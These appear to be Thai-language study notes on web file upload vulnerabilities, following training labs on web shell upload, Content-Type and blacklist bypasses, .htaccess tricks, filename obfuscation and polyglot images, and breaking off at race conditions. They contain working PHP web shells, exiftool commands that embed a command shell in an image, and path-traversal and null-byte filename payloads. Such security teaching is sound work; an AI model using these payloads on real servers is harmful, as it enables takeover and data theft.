

## ช่องโหว่ File Upload คืออะไรเหรอ?

เอาง่ายๆ นะ **ช่องโหว่ File Upload** มันเกิดขึ้นตอนที่เว็บไซต์ให้เราอัปโหลดไฟล์ได้ แต่มันไม่ได้เช็คดีๆ ว่าไฟล์ที่เราส่งไปมันเป็นอะไร ชื่ออะไร ใหญ่แค่ไหน หรือมีอะไรแปลกๆ อยู่ข้างในมั้ย 

ยกตัวอย่างนะ สมมติเว็บไซต์มีฟีเจอร์ให้อัปโหลดรูปโปรไฟล์ แต่ถ้ามันไม่เช็คดีๆ เราก็อาจจะส่งไฟล์ที่อันตรายไปแทนรูปภาพได้ เช่น ส่งไฟล์โค้ดที่สามารถรันบนเซิร์ฟเวอร์ได้ แล้วก็อาจจะควบคุมเซิร์ฟเวอร์ได้เลย

บางทีแค่การอัปโหลดไฟล์ขึ้นไปอย่างเดียวก็พอทำลายได้แล้ว หรือบางทีอาจจะต้องมีขั้นตอนเพิ่มเติม เช่น ส่ง request ไปเรียกไฟล์นั้นมาทำงาน

## มันอันตรายแค่ไหน?

ความอันตรายมันขึ้นอยู่กับสองเรื่องหลักๆ:

**1. เว็บไซต์ไม่เช็คอะไรบ้าง** - ไม่เช็คชนิดไฟล์? ไม่เช็คขนาด? หรือไม่เช็คเนื้อหาข้างใน?

**2. หลังอัปโหลดแล้วมีข้อจำกัดอะไรมั้ย** - ไฟล์ที่อัปไปแล้วจะถูกจำกัดการใช้งานยังไง?

**กรณีเลวร้ายสุด** คือถ้าเว็บไซต์ไม่เช็คชนิดไฟล์เลย แล้วเซิร์ฟเวอร์ยังตั้งค่าให้รันไฟล์บางประเภทได้ (เช่น `.php` หรือ `.jsp`) นี่แหละคือปัญหาใหญ่! ผู้โจมตีสามารถส่งไฟล์ที่เป็น "web shell" ไป แล้วก็จะควบคุมเซิร์ฟเวอร์ได้เต็มๆ

ปัญหาอื่นๆ ที่อาจเกิดขึ้น:
- **เขียนทับไฟล์สำคัญ** ถ้าไม่เช็คชื่อไฟล์ เราอาจส่งไฟล์ที่ชื่อซ้ำกับไฟล์สำคัญได้
- **โจมตี DoS** ส่งไฟล์ใหญ่ๆ ไปเต็มพื้นที่เก็บข้อมูล
- **วางไฟล์ในที่ผิด** ถ้ามีช่องโหว่ directory traversal ด้วย อาจวางไฟล์ในโฟลเดอร์ที่ไม่ควรจะไปได้

## ทำไมถึงเกิดช่องโหว่แบบนี้?

จริงๆ แล้วเว็บไซต์ส่วนใหญ่ก็รู้ว่าต้องมีการป้องกัน ไม่ใช่ว่าปล่อยให้อัปโหลดอะไรก็ได้แบบไม่มีกฎเกณฑ์ แต่ปัญหาคือ**วิธีป้องกันที่เขาใช้มันไม่ดีพอ**หรือ**ถูกเจาะได้ง่าย**

ตัวอย่างปัญหาที่เจอบ่อยๆ:
- **ใช้ blacklist แต่ไม่ครบ** เช่น บล็อกไฟล์ `.php` แต่ลืมบล็อก `.php3`, `.php4`, `.phtml` 
- **เช็คแค่นามสกุลไฟล์** แต่ไม่เช็คเนื้อหาจริงๆ เลยหลอกได้ง่าย
- **เช็คไม่สม่ำเสมอ** เช่น เช็คเข้มในหน้าหลัก แต่ในหน้าย่อยๆ เช็คหลวมๆ

## เซิร์ฟเวอร์จัดการไฟล์ยังไง?

ให้เข้าใจก่อนว่าเซิร์ฟเวอร์ทำงานยังไงตอนมีคนขอไฟล์

สมัยก่อนเว็บไซต์ส่วนใหญ่จะเป็นไฟล์ HTML ธรรมดาๆ ที่วางไว้ในโฟลเดอร์ ใครขอไฟล์ไหนก็ส่งไฟล์นั้นไป เส้นทาง URL จะตรงกับโครงสร้างโฟลเดอร์เป็นหนึ่งต่อหนึ่ง

แต่ตอนนี้เว็บไซต์ส่วนใหญ่เป็นแบบไดนามิก เส้นทาง URL ไม่ได้หมายถึงไฟล์จริงๆ ในโฟลเดอร์เสมอไป แต่เซิร์ฟเวอร์ยังคงต้องจัดการไฟล์ static บางอย่าง เช่น รูปภาพ, CSS, JavaScript

**กระบวนการทำงาน:**
1. เซิร์ฟเวอร์ดูนามสกุลไฟล์ที่ถูกขอ
2. เช็คว่านามสกุลนี้ควรจะเป็น MIME type อะไร
3. แล้วก็ตัดสินใจว่าจะทำอะไรต่อ:

**ถ้าเป็นไฟล์ธรรมดา** (เช่น รูปภาพ, HTML) ส่งเนื้อหาไฟล์ไปให้เลย

**ถ้าเป็นไฟล์ที่รันได้** (เช่น PHP) **และเซิร์ฟเวอร์ตั้งค่าให้รันได้** จะเอาข้อมูลจาก HTTP request มาใส่ในตัวแปร แล้วรันโค้ด แล้วส่งผลลัพธ์กลับมา

**ถ้าเป็นไฟล์ที่รันได้ แต่เซิร์ฟเวอร์ไม่ได้ตั้งค่าให้รัน** ปกติจะ error แต่บางทีอาจส่งเนื้อหาไฟล์มาเป็น text ธรรมดา (นี่ก็อันตรายเหมือนกัน เพราะอาจเห็น source code)


Lab: Remote code execution via web shell upload  

ไม่มี protection อะไรเลย สามารถ upload php file  --> RCE


## การแสวงหาประโยชน์จาก File Upload ที่ไม่มีข้อจำกัดเพื่อติดตั้ง Web Shell

จากมุมมองด้านความปลอดภัย สถานการณ์ที่เลวร้ายที่สุดคือเมื่อเว็บไซต์ให้เราอัปโหลดไฟล์สคริปต์ฝั่งเซิร์ฟเวอร์ได้ เช่น PHP, Java, หรือ Python แล้วยังตั้งค่าให้รันไฟล์พวกนี้เป็นโค้ดด้วย นี่ทำให้เราสร้าง web shell ของตัวเองบนเซิร์ฟเวอร์ได้ง่ายมาก

## Web Shell คืออะไร?

**Web Shell** คือสคริปต์ที่มีเจตนาร้าย ที่ทำให้ผู้โจมตีสามารถรันคำสั่งต่างๆ บนเซิร์ฟเวอร์ได้ เพียงแค่ส่ง HTTP request ไปที่ตำแหน่งที่ถูกต้อง

ถ้าอัปโหลด web shell สำเร็จ แปลว่าเราจะควบคุมเซิร์ฟเวอร์ได้เต็มที่เลย เราจะสามารถอ่านและเขียนไฟล์ใดๆ ก็ได้ ขโมยข้อมูลสำคัญ หรือแม้กระทั่งใช้เซิร์ฟเวอร์นี้เป็นจุดกระโดดไปโจมตีระบบอื่นๆ ทั้งภายในและภายนอกเครือข่าย

ตัวอย่าง PHP แบบง่ายๆ ที่ใช้อ่านไฟล์ใดๆ ในเซิร์ฟเวอร์:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

พอเราอัปโหลดไฟล์นี้ขึ้นไปแล้ว เมื่อส่ง request ไปขออ่านไฟล์นี้ มันจะส่งเนื้อหาของไฟล์เป้าหมายกลับมาให้เรา

หรือ web shell ที่ทรงพลังกว่านี้:
```php
<?php echo system($_GET['command']); ?>
```

สคริปต์นี้ให้เราส่งคำสั่งระบบผ่าน query parameter แบบนี้:
```
GET /example/exploit.php?command=id HTTP/1.1
```

## การแสวงหาประโยชน์จากการตรวจสอบไฟล์ที่มีข้อบกพร่อง

ในความเป็นจริง เราไม่ค่อยจะเจอเว็บไซต์ที่ไม่มีการป้องกัน file upload เลย แต่แค่มีการป้องกัน ไม่ได้หมายความว่ามันจะแข็งแกร่ง เราอาจจะยังหาช่องโหว่ในกลไกป้องกันเหล่านี้เพื่อสร้าง web shell สำหรับ remote code execution ได้

## การตรวจสอบประเภทไฟล์ที่มีข้อบกพร่อง

เวลาส่ง HTML form บราวเซอร์มักจะส่งข้อมูลใน POST request ที่มี content type เป็น `application/x-www-form-url-encoded` วิธีนี้ใช้ได้ดีกับข้อความธรรมดา เช่น ชื่อหรือที่อยู่ แต่ไม่เหมาะกับการส่งข้อมูลขนาดใหญ่แบบ binary เช่น ไฟล์รูปภาพหื่อ PDF ในกรณีนี้จะใช้ content type `multipart/form-data` แทน

มาดูตัวอย่าง form ที่มีช่องสำหรับอัปโหลดรูป ใส่คำอธิบาย และใส่ชื่อผู้ใช้ เมื่อส่ง form นี้ request อาจจะหน้าตาแบบนี้:

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]
---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.
---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

เห็นมั้ย ตัว message body จะถูกแบ่งเป็นส่วนๆ สำหรับแต่ละ input ของ form แต่ละส่วนจะมี `Content-Disposition` header ที่บอกข้อมูลพื้นฐานเกี่ยวกับ input field นั้นๆ และแต่ละส่วนอาจจะมี `Content-Type` header ของตัวเองด้วย ซึ่งบอกเซิร์ฟเวอร์ว่าข้อมูลที่ส่งมานี้เป็นประเภท MIME type อะไร

วิธีหนึ่งที่เว็บไซต์อาจจะพยายามตรวจสอบไฟล์ที่อัปโหลดคือการเช็คว่า `Content-Type` header ของ input ตรงกับ MIME type ที่คาดหวังมั้ย ถ้าเซิร์ฟเวอร์คาดหวังแค่ไฟล์รูปภาพ มันอาจจะอนุญาตแค่ประเภท `image/jpeg` และ `image/png` เท่านั้น 

ปัญหาจะเกิดขึ้นเมื่อเซิร์ฟเวอร์เชื่อถือค่าใน header นี้โดยไม่มีการตรวจสอบเพิ่มเติม ถ้าไม่มีการตรวจสอบเนื้อหาจริงๆ ในไฟล์ว่าตรงกับ MIME type ที่บอกมามั้ย การป้องกันแบบนี้ก็หลอกได้ง่ายๆ โดยใช้เครื่องมือเช่น Burp Repeater


Lab: Web shell upload via Content-Type restriction bypass


### ขั้นตอนที่ 1: การ Upload (Validation)
- เซิร์ฟเวอร์เช็ค `Content-Type: image/jpeg` ใน HTTP request
- เซิร์ฟเวอร์คิดว่า "โอเค นี่เป็นรูป ผ่าน!"
- ไฟล์ถูกบันทึกเป็น `exploit.php`

### ขั้นตอนที่ 2: การ Execute (Runtime)
- เมื่อมีคน GET `/files/avatars/exploit.php`
- เซิร์ฟเวอร์ดูนามสกุล `.php` 
- เซิร์ฟเวอร์คิดว่า "อ้อ ไฟล์ PHP นี่ต้อง execute"
- รันโค้ดใน `<?php ... ?>`

## ทำไมถึงเป็นแบบนี้?

เพราะว่า:
- **ตอน upload**: เซิร์ฟเวอร์ใช้ `Content-Type` header เพื่อ validate ว่าอนุญาตให้อัปโหลดมั้ย
- **ตอน access**: เซิร์ฟเวอร์ใช้ **file extension** เพื่อตัดสินใจว่าจะ execute ยังไง

## ช่องโหว่เกิดจาก:

1. **Validation ใช้ Content-Type** (หลอกได้)
2. **Execution ใช้ file extension** (หลอกไม่ได้ เพราะเราตั้งชื่อ exploit.php เอง)

## การป้องกันการรันไฟล์ในไดเรกทอรีที่ผู้ใช้เข้าถึงได้


ถึงแม้เราจะพยายามป้องกันไม่ให้ไฟล์อันตรายขึ้นมาตั้งแต่แรก แต่ถ้ามันขึ้นมาได้แล้ว เราก็ยังมีแผนสำรองคือ **ไม่ให้เซิร์ฟเวอร์รันไฟล์นั้นเป็นโค้ด**

ปกติเซิร์ฟเวอร์จะรันแค่ไฟล์ที่มันรู้จักเท่านั้น ถ้าเป็นไฟล์ที่ไม่รู้จักหรือไม่ได้ตั้งค่าให้รัน มันจะทำอย่างใดอย่างหนึ่ง:
- ส่ง error กลับมา
- หรือแสดงเนื้อหาในไฟล์เป็นข้อความธรรมดา


ตัวอย่าง เราส่ง request ไปขอไฟล์ PHP แต่เซิร์ฟเวอร์ไม่รัน มันก็จะแสดงโค้ด PHP เป็นข้อความธรรมดาออกมา


```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

เรื่องนี้ก็มีข้อดีคือเราอาจเห็น source code ได้ แต่ข้อเสียคือเราสร้าง web shell ไม่ได้

**แต่นี่คือเคล็ดลับสำคัญ!** 

เซิร์ฟเวอร์มักจะตั้งค่าต่างกันในแต่ละโฟลเดอร์ โฟลเดอร์ที่ให้ผู้ใช้อัปโหลดไฟล์จะเข้มงวดมาก แต่โฟลเดอร์อื่นๆ ที่คิดว่าผู้ใช้ไปไม่ถึงอาจจะหลวมกว่า 

ถ้าเราหาทางอัปโหลดไฟล์ไปโฟลเดอร์ที่ไม่ควรจะมีไฟล์จากผู้ใช้ เซิร์ฟเวอร์อาจจะรันให้เราได้!

**วิธีการ:** เซิร์ฟเวอร์มักจะดูชื่อไฟล์ใน request เพื่อตัดสินใจว่าจะเซฟไฟล์ไว้ที่ไหน เราอาจจะเปลี่ยนชื่อไฟล์ให้มี path ที่เราต้องการได้

**อีกเรื่องที่ต้องระวัง:** ถึงแม้เราจะส่ง request ไปเว็บไซต์เดียวกัน แต่เบื้องหลังอาจมีหลายเซิร์ฟเวอร์ เช่น มี load balancer, มี reverse proxy แต่ละตัวอาจตั้งค่าต่างกัน เราอาจจะหาช่องโหว่จากความแตกต่างนี้ได้!


Lab: Web shell upload via path traversal





### ความแตกต่างระหว่าง URL path กับ form data

**1. ใน URL path (ปกติ):**
```
GET /files/avatars/../exploit.php
```
ตรงนี้ `/` ไม่ต้อง encode เพราะมันเป็นส่วนหนึ่งของ URL path structure

**2. ใน form data (ที่เราทำ):**
```
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```
ตรงนี้ `../` อยู่**ในค่าของ filename** ไม่ใช่ใน URL path

### ทำไมต้อง encode?

เมื่อเราส่ง `filename="../exploit.php"` แบบธรรมดา:
- เซิร์ฟเวอร์มี security filter ที่ตรวจจับ `../` pattern
- มันจะลบ `../` ออก เลยกลายเป็น `exploit.php` ธรรมดา
- ไฟล์เลยไปอยู่ใน `/files/avatars/exploit.php` ตามปกติ

เมื่อเราใช้ `filename="..%2fexploit.php"`:
- Security filter มองไม่เห็น `../` pattern (เพราะเป็น `..%2f`)
- ไฟล์ผ่านการตรวจสอบไปได้
- **หลังจากนั้น** เซิร์ฟเวอร์ค่อย URL decode `%2f` กลับเป็น `/`
- เลยกลายเป็น `../exploit.php` และไปอยู่ใน `/files/` แทน

### ลำดับการทำงาน:
1. เราส่ง: `filename="..%2fexploit.php"`
2. Security filter เช็ค: ไม่เห็น `../` เลยผ่าน ✅
3. เซิร์ฟเวอร์ URL decode: `%2f` → `/`
4. ผลลัพธ์: `../exploit.php`
5. ระบบไฟล์: บันทึกไฟล์ไว้ที่ `/files/exploit.php`

### เปรียบเทียบกับ URL path
```bash
# ใน URL path - ไม่ต้อง encode
GET /files/../something.php   # works fine

# ใน form filename - ต้อง encode เพื่อหลบ filter
filename="../something.php"   # ถูกลบออก
filename="..%2fsomething.php" # ผ่านไปได้
```

**สรุป:** เราต้อง encode เพราะเราพยายาม**หลอก security filter** ที่ดูแค่ pattern `../` ในขณะที่ค่า filename ยังไม่ถูก decode แต่หลังจากผ่าน filter แล้ว เซิร์ฟเวอร์ค่อย decode ให้เรา!


## ทำไมเซิร์ฟเวอร์ต้อง URL decode?

### 1. **มาตรฐาน HTTP และ RFC**
ตาม HTTP specification (RFC 7578) เซิร์ฟเวอร์**ต้อง** decode URL-encoded characters ใน form data เพราะ:
- Browser อาจ encode characters อัตโนมัติ
- Data ต้องถูกประมวลผลในรูปแบบที่ถูกต้อง
- เป็นมาตรฐานสากลที่ทุก web server ต้องทำ

### 2. **เหตุผลปฏิบัติ**
ลองคิดดู ถ้าผู้ใช้อัปโหลดไฟล์ชื่อ `my file.txt` (มีช่องว่าง):

```
filename="my%20file.txt"  # %20 = space
```

เซิร์ฟเวอร์ต้อง decode เป็น `my file.txt` ไม่อย่างนั้นไฟล์จะมีชื่อแปลกๆ เป็น `my%20file.txt`

### 3. **ตัวอย่างที่เจอบ่อย**
```
# ชื่อไฟล์ภาษาไทย
filename="%E0%B8%97%E0%B8%94%E0%B8%AA%E0%B8%AD%E0%B8%9A.txt"
# ต้อง decode เป็น "ทดสอบ.txt"

# ชื่อไฟล์มีอักขระพิเศษ
filename="document%26copy.pdf"  
# ต้อง decode เป็น "document&copy.pdf"
```

```python
# Pseudo code ของ web server
def handle_upload(request):
    # Step 1: Security check (ดู raw data)
    if "../" in request.filename:  # ❌ ดูแค่ raw
        return "Blocked"
    
    # Step 2: Process normally (decode ตาม standard)
    decoded_filename = urllib.parse.unquote(request.filename)
    save_file(decoded_filename)  # ใช้ decoded name
```


## การป้องกันแบบ Blacklisting ที่ไม่เพียงพอ

วิธีที่ชัดเจนที่สุดในการป้องกันไม่ให้ผู้ใช้อัปโหลดสคริปต์ที่เป็นอันตรายคือการใช้ blacklist บล็อกนามสกุลไฟล์ที่อันตราย เช่น `.php` แต่การใช้ blacklist มันมีข้อบกพร่องโดยธรรมชาติ เพราะยากมากที่จะบล็อกนามสกุลไฟล์ทุกตัวที่อาจใช้รันโค้ดได้

บางครั้ง blacklist พวกนี้อาจถูกข้ามได้ด้วยการใช้นามสกุลไฟล์ทางเลือกที่ไม่ค่อยมีคนรู้จัก แต่ยังคงสามารถรันได้ เช่น `.php5`, `.shtml` และอื่นๆ

## การแก้ไขการตั้งค่าเซิร์ฟเวอร์

อย่างที่เราคุยกันไปแล้ว เซิร์ฟเวอร์จะไม่รันไฟล์เว้นแต่ว่าจะมีการตั้งค่าให้ทำแบบนั้น ตัวอย่างเช่น ก่อนที่เซิร์ฟเวอร์ Apache จะรันไฟล์ PHP ที่ไคลเอนต์ร้องขอ นักพัฒนาอาจต้องเพิ่มคำสั่งต่อไปนี้ลงในไฟล์ `/etc/apache2/apache2.conf`:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

เซิร์ฟเวอร์หลายตัวยังอนุญาตให้นักพัฒนาสร้างไฟล์การตั้งค่าพิเศษภายในไดเรกทอรีแต่ละตัว เพื่อแก้ไขหรือเพิ่มเติมการตั้งค่าโกลบอลหนึ่งตัวหรือมากกว่า เซิร์ฟเวอร์ Apache ตัวอย่างเช่น จะโหลดการตั้งค่าเฉพาะไดเรกทอรีจากไฟล์ที่ชื่อ `.htaccess` ถ้ามีไฟล์นี้อยู่

ในทำนองเดียวกัน นักพัฒนาสามารถทำการตั้งค่าเฉพาะไดเรกทอรีบนเซิร์ฟเวอร์ IIS โดยใช้ไฟล์ `web.config` ซึ่งอาจจะมีคำสั่งแบบนี้ ที่ในกรณีนี้อนุญาตให้ไฟล์ JSON ถูกส่งให้กับผู้ใช้:

```xml
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```

เว็บเซิร์ฟเวอร์จะใช้ไฟล์การตั้งค่าประเภทนี้เมื่อมีอยู่ แต่โดยปกติแล้วเราจะไม่ได้รับอนุญาตให้เข้าถึงไฟล์เหล่านี้ผ่าน HTTP requests อย่างไรก็ตาม บางครั้งเราอาจจะเจอเซิร์ฟเวอร์ที่ไม่สามารถหยุดเราจากการอัปโหลดไฟล์การตั้งค่าที่เป็นอันตรายของเราเอง 

ในกรณีนี้ แม้ว่านามสกุลไฟล์ที่เราต้องการจะถูกใส่ใน blacklist แล้ว เราก็อาจจะสามารถหลอกเซิร์ฟเวอร์ให้จับคู่นามสกุลไฟล์ที่เราสร้างขึ้นเองกับ MIME type ที่รันได้

---


จะเห็นว่าเป็น apache server ผ่าน respond header สามารถใช้ php5 bupass blacklist ได้

```
GET /files/avatars/shell.php5?command=id HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```
นี่คือผลลัพธ์ของ .htaccess ที่ทำให้ respond เป็น plantext


**อัปโหลดไฟล์ .htaccess (เทคนิคสำคัญ)**
- ใน Burp Repeater ไปที่แท็บ `POST /my-account/avatar` หาส่วนที่เกี่ยวกับไฟล์ PHP แล้วแก้ไข:
  - เปลี่ยน `filename` เป็น `.htaccess`
  - เปลี่ยน `Content-Type` เป็น `text/plain`
  - แทนที่เนื้อหาไฟล์ (PHP payload) ด้วย Apache directive นี้:
```
AddType application/x-httpd-php .php5
```

หรือถ้าใช้นามสกุลปลอม:
```
AddType application/x-httpd-php .l33t
```

**สิ่งที่เกิดขึ้น:** คำสั่งนี้จะบอกเซิร์ฟเวอร์ว่าให้จับคู่นามสกุล `.l33t` (ที่เราแต่งขึ้น) กับ MIME type `application/x-httpd-php` ที่รันได้ เนื่องจากเซิร์ฟเวอร์ใช้ `mod_php` module มันจะรู้วิธีจัดการกับสิ่งนี้อยู่แล้ว


**สรุปเทคนิค:**
เราหลอกระบบโดยการอัปโหลดไฟล์ `.htaccess` ก่อน เพื่อแก้ไขการตั้งค่าเซิร์ฟเวอร์ให้รันไฟล์นามสกุลที่เราแต่งขึ้น (`.l33t`) เป็น PHP แล้วจึงอัปโหลดไฟล์โจมตีด้วยนามสกุลใหม่นี้ เป็นการข้าม blacklist อย่างชาญฉลาด!


## การปกปิดนามสกุลไฟล์ (Obfuscating File Extensions)

แม้แต่ blacklist ที่ครอบคลุมที่สุดก็ยังสามารถถูกข้ามได้โดยใช้เทคนิคการปกปิดแบบคลาสสิก สมมติว่าโค้ดตรวจสอบแยกความแตกต่างระหว่างตัวพิมพ์เล็กใหญ่ และไม่รู้จักว่า `exploit.pHp` จริงๆ แล้วคือไฟล์ `.php` หากโค้ดที่จับคู่นามสกุลไฟล์กับ MIME type ภายหลังไม่แยกตัวพิมพ์เล็กใหญ่ ความแตกต่างนี้ทำให้เราสามารถแอบส่งไฟล์ PHP ที่เป็นอันตรายผ่านการตรวจสอบได้ และอาจถูกรันโดยเซิร์ฟเวอร์ในที่สุด

**เทคนิคอื่นๆ ที่ได้ผลคล้ายกัน:**

## 1. ใช้หลายนามสกุล
ขึ้นอยู่กับอัลกอริทึมที่ใช้แยกชื่อไฟล์ ไฟล์ต่อไปนี้อาจถูกตีความเป็นไฟล์ PHP หรือรูป JPG ก็ได้:
```
exploit.php.jpg
```

## 2. เพิ่มตัวอักษรท้าย
บางส่วนประกอบจะตัดหรือเพิกเฉยต่อช่องว่าง จุด และอื่นๆ ที่อยู่ท้าย:
```
exploit.php.
```

## 3. ใช้ URL Encoding
ลองใช้ URL encoding (หรือ double URL encoding) สำหรับจุด สแลชหน้า และสแลชหลัง หากค่าไม่ได้ถูก decode ตอนตรวจสอบนามสกุลไฟล์ แต่ถูก decode ฝั่งเซิร์ฟเวอร์ทีหลัง ก็สามารถอัปโหลดไฟล์อันตรายที่ปกติจะถูกบล็อกได้:
```
exploit%2Ephp
```

## 4. เพิ่ม Semicolon หรือ Null Byte
เพิ่ม semicolon หรือ null byte character ที่ถูก URL-encode ก่อนนามสกุลไฟล์ หากการตรวจสอบเขียนด้วยภาษาระดับสูงเช่น PHP หรือ Java แต่เซิร์ฟเวอร์ประมวลผลไฟล์ด้วยฟังก์ชันระดับต่ำใน C/C++ อาจทำให้เกิดความแตกต่างในสิ่งที่ถือว่าเป็นจุดสิ้นสุดของชื่อไฟล์:
```
exploit.asp;.jpg
exploit.asp%00.jpg
```

## 5. ใช้ Multibyte Unicode Characters
ลองใช้ตัวอักษร unicode แบบ multibyte ซึ่งอาจถูกแปลงเป็น null bytes และจุดหลังจากการแปลงหรือทำให้เป็นมาตรฐาน ลำดับเช่น `xC0 x2E`, `xC4 xAE` หรือ `xC0 xAE` อาจถูกแปลเป็น `x2E` หากชื่อไฟล์ถูกแยกเป็น UTF-8 string แต่แปลงเป็นตัวอักษร ASCII ก่อนใช้ใน path

## การป้องกันแบบตัดหรือแทนที่

การป้องกันอื่นๆ เกี่ยวข้องกับการตัดหรือแทนที่นามสกุลอันตรายเพื่อป้องกันไม่ให้ไฟล์ถูกรัน หากการแปลงนี้ไม่ได้ถูกใช้แบบ recursive เราสามารถวางสตริงที่ถูกห้ามในตำแหน่งที่การลบออกยังคงทิ้งนามสกุลไฟล์ที่ใช้ได้ไว้ 

ตัวอย่าง พิจารณาสิ่งที่เกิดขึ้นหากเราตัด `.php` ออกจากชื่อไฟล์นี้:
```
exploit.p.phphp
```

เมื่อระบบตัด `.php` ออก จะเหลือ:
```
exploit.p.php
```

ซึ่งยังคงเป็นไฟล์ PHP ที่ใช้งานได้!


## shell.php%00.jpg ทำงานได้ยังไง?

มันเกี่ยวข้องกับความแตกต่างระหว่าง**ภาษาโปรแกรมระดับสูง**กับ**ระดับต่ำ**ในการจัดการสตริง

### ที่มาของปัญหา:

**1. Null Byte (`%00`) คืออะไร?**
- `%00` คือ null byte ที่ถูก URL encode
- ในระบบ C/C++ null byte (`\0`) หมายถึง**จุดจบของสตริง**
- แต่ภาษาระดับสูงอย่าง PHP, Java อาจไม่ตีความแบบนี้

**2. สถานการณ์ที่เกิดขึ้น:**

```
ไฟล์: shell.php%00.jpg
```

**ขั้นตอนที่ 1: การตรวจสอบ (ภาษาระดับสูง เช่น PHP)**
```php
$filename = "shell.php%00.jpg";
$extension = pathinfo($filename, PATHINFO_EXTENSION);
// ผลลัพธ์: "jpg"
// ✅ ผ่านการตรวจสอบ! เพราะดูเป็นไฟล์ .jpg
```

**ขั้นตอนที่ 2: การประมวลผลจริง (ระบบระดับต่ำ เช่น C)**
เมื่อเซิร์ฟเวอร์ decode URL และประมวลผลด้วยฟังก์ชัน C:
```c
char filename[] = "shell.php\0.jpg";
//                          ↑
//                    null byte ตัดสตริงที่นี่
// ระบบ C เห็นแค่ "shell.php"
```

### ผลลัพธ์:
- **การตรวจสอบ:** เห็นเป็น `shell.jpg` → อนุญาต
- **การรันจริง:** เห็นเป็น `shell.php` → รันเป็น PHP!

### ตัวอย่างในโลกจริง:

```
Request: POST /upload
Content: shell.php%00.gif

1. ระบบตรวจสอบ (PHP/Java):
   - เห็น: "shell.php%00.gif"
   - Extension: "gif"
   - ✅ อนุญาต

2. ระบบบันทึกไฟล์ (C library):
   - Decode: "shell.php\0.gif" 
   - ระบบ C อ่านถึง \0 แล้วหยุด
   - บันทึกเป็น: "shell.php"

3. เมื่อเรียกใช้ไฟล์:
   - เซิร์ฟเวอร์เห็น "shell.php"
   - รันเป็นโค้ด PHP!
```

### ทำไมถึงใช้ได้?

เพราะ**ความไม่สอดคล้อง**ระหว่างระบบ:
- **ระบบตรวจสอบ:** ใช้ภาษาสมัยใหม่ที่จัดการ string แบบ object
- **ระบบไฟล์:** ใช้ C library ที่ถือว่า null byte เป็นจุดจบ

### วิธีป้องกัน:
```php
// แทนที่จะใช้แค่
$ext = pathinfo($filename, PATHINFO_EXTENSION);

// ควรเช็คเพิ่ม
if (strpos($filename, "\0") !== false) {
    // บล็อก! มี null byte
}
```


## การตรวจสอบเนื้อหาไฟล์ที่มีข้อบกพร่อง

แทนที่จะเชื่อ `Content-Type` ที่ระบุในคำขอโดยไม่ต้องสงสัย เซิร์ฟเวอร์ที่ปลอดภัยกว่าจะพยายามตรวจสอบว่าเนื้อหาของไฟล์ตรงกับสิ่งที่คาดหวังจริงๆ

ในกรณีของฟังก์ชันอัปโหลดรูปภาพ เซิร์ฟเวอร์อาจพยายามตรวจสอบคุณสมบัติโดยธรรมชาติของรูปภาพ เช่น ขนาดความกว้างและความสูง หากเราพยายามอัปโหลดสคริปต์ PHP ตัวอย่างเช่น มันจะไม่มีขนาดเลย เซิร์ฟเวอร์จึงสามารถสรุปได้ว่ามันไม่ใช่รูปภาพ และปฏิเสธการอัปโหลดตามนั้น

## การตรวจสอบด้วย File Signature

ในทำนองเดียวกัน ไฟล์บางประเภทอาจมีลำดับไบต์เฉพาะในส่วนหัวหรือส่วนท้ายเสมอ สิ่งเหล่านี้สามารถใช้เหมือนลายนิ้วมือหรือลายเซ็นเพื่อกำหนดว่าเนื้อหาตรงกับประเภทที่คาดหวังหรือไม่ 

ตัวอย่างเช่น ไฟล์ JPEG จะเริ่มต้นด้วยไบต์ `FF D8 FF` เสมอ

นี่เป็นวิธีที่แข็งแกร่งกว่ามากในการตรวจสอบประเภทไฟล์ แต่แม้แต่วิธีนี้ก็ไม่ใช่ว่าจะป้องกันได้หมดจด 

## การหลีกเลี่ยงด้วย Polyglot Files

เราสามารถใช้เครื่องมือพิเศษ เช่น **ExifTool** เพื่อสร้างไฟล์ JPEG แบบ polyglot ที่มีโค้ดอันตรายอยู่ใน metadata ได้อย่างง่ายดาย

---


```
exiftool -DocumentName="<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.png -o shell2.php

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.png -o polyglot.php
```


## Race Condition ในการอัปโหลดไฟล์ 

## เกิดขึ้นได้ยังไง?

**สถานการณ์ปกติ:**
เว็บไซต์สมัยใหม่เขาฉลาดแล้ว พอเราอัปโหลดไฟล์ เขาจะ:
1. เอาไฟล์ไปเก็บในโฟลเดอร์ชั่วคราวก่อน (ที่ปลอดภัย)
2. ตั้งชื่อแบบสุ่มๆ 
3. เช็คให้แน่ใจว่าไม่มีอันตราย
4. ถ้าโอเคค่อยย้ายไปที่จริง ถ้าไม่โอเคก็ลบทิ้ง

**แต่! บางเว็บไซต์ทำแบบเก่า:**
